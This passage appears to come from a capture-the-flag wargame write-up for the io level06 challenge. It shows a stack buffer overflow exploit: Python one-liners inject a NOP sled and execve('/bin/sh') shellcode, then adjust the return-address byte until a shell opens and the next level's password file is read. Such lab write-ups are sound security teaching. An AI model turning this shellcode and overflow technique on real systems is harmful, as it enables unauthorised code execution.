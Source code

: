 That's great! Now let's step out of the debugger and see if it works.
```
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80A"') $(python -c 'print "B"*24 + "C\xb4\xfb\xff\xbfDDDD"')
Willkommen ????????????????1?Ph//shh/bin??PS??
                                              ̀ABBBBBBBBBBBBBBBBBBBBBBBBC????DDD
Illegal instruction
```

This isn't so surprising, address space in the debugger differs than address space outside of the debugger so let's just try playing around with the last byte of the EIP overwrite.
```
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80A"') $(python -c 'print "B"*24 + "C\xb8\xfb\xff\xbfDDDD"')
Willkommen ????????????????1?Ph//shh/bin??PS??
                                              ̀ABBBBBBBBBBBBBBBBBBBBBBBBC????DDD
Segmentation fault
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80A"') $(python -c 'print "B"*24 + "C\xbc\xfb\xff\xbfDDDD"')
Willkommen ????????????????1?Ph//shh/bin??PS??
                                              ̀ABBBBBBBBBBBBBBBBBBBBBBBBC????DDD
Segmentation fault
level6@io:/levels$ ./level06 $(python -c 'print "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80A"') $(python -c 'print "B"*24 + "C\xc0\xfb\xff\xbfDDDD"')
Willkommen ????????????????1?Ph//shh/bin??PS??
                                              ̀ABBBBBBBBBBBBBBBBBBBBBBBBC????DDD
sh-4.2$ whoami
level7
sh-4.2$ cat /home/level7/.pass
[Level 7 password]
sh-4.2$ 
```

If you look back through the code above, you'll see that the EIP overwrite changed from "\xb4\xfb\xff\xbf" to "\xb8\xfb\xff\xbf", then to "\xbc\xfb\xff\xbf", and finally to "\xc0\xfb\xff\xbf" before it worked. So the address was a little off and now we have our shell :)
